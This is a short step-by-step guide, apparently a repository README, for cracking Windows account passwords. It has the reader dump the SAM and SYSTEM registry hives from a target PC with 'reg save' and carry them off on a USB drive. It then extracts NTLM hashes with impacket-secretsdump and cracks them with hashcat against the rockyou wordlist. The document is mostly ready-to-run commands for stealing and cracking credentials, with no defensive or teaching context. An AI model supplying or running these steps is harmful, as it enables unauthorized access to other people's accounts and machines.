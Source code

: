 This is for cracking window hash

level: 1

type: temporary access

Requirement:
- usb flash drive
- sam and system file
- rockyou.txt or other password list
- tools: impacket-secretsdump(turn sam and system into hash), hashcat(crack hash)

Tools installation: 
impacket-secretsdump and hashcat automatically install on kali 
for Debian base distros: 'sudo apt install impacket' & 'sudo apt install hashcat'
for Arch base distros: 'sudo pacman -S impacket' & 'sudo pacman -S hashcat'

Getting start:
make sure you have access to your target pc.
1. get sam and system file:
- make sure usb flash drive is plugged in your terget pc and make sure to remember it name (example: D:,E:,F:) 
2. in terminal:
- reg save HKLM\sam ./sam.save
- reg save HKLM\system ./sys.save
- copy sam.save D:
- copy sys.save D:
after saving the file eject the flash drive and plug it your pc.(make sure everything is ready)
3. move sam.save and sys.save from flash drive to pc
4. open your gui file system then go into /usr/share/wordlists/rockyou.txt.gz and move rockyou.txt into the same dir as sam.save and sys,save
5. in interminal cd into the dir that contain those file:
- impacket-secretsdump -sam sam.save -system sys.save (then copy the hash of the user which is the 'y' then paste in a new file hashes.txt. example:{user10:::xxxxxxxxxxxxxxxxxxxxxxxxx:yyyyyyyyyyyyyyyyyyyyyy:::})
- sudo hashcat -m 1000 hashes.txt rockyou.txt
6. if 'crack' it success if something else then it fail (try checking the list of password again or give more data to it and also check sam.save and sys.save if there any data lost)

